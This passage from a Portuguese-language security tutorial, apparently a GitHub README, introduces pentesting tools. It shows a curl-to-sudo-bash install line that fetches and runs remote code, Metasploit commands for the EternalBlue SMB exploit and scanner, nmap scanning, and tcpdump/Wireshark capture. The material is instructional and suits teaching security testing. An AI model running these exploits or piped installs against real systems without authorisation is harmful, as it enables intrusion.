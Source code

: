 ## ⚔️ 4. Testes de Intrusão / Pentest

### 🛡️ 4.1 Metasploit Framework

Metasploit é uma ferramenta essencial para testes de penetração:

```bash
# Instalação
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb | sudo bash

# Uso básico
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```

#### 🚀 Exemplo de Exploração

```bash
# Escaneamento de vulnerabilidades
nmap -sV -sC -O target_ip

# Exploração com Metasploit
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS target_ip
run
```

### 🛠️ 4.2 Burp Suite e OWASP ZAP

Ferramentas para testes de aplicações web:

- **Burp Suite**: Proxy interceptador profissional
- **OWASP ZAP**: Ferramenta open-source para testes de segurança web

## 📡 5. Análise de Tráfego / Packet Sniffing

### 🌐 5.1 tcpdump + Wireshark

Análise de tráfego de rede:

```bash
# Captura básica com tcpdump
sudo tcpdump -i eth0 -w capture.pcap

# Análise com Wireshark
wireshark capture.pcap
```

## 🍯 6. Honeypots / Honeynets
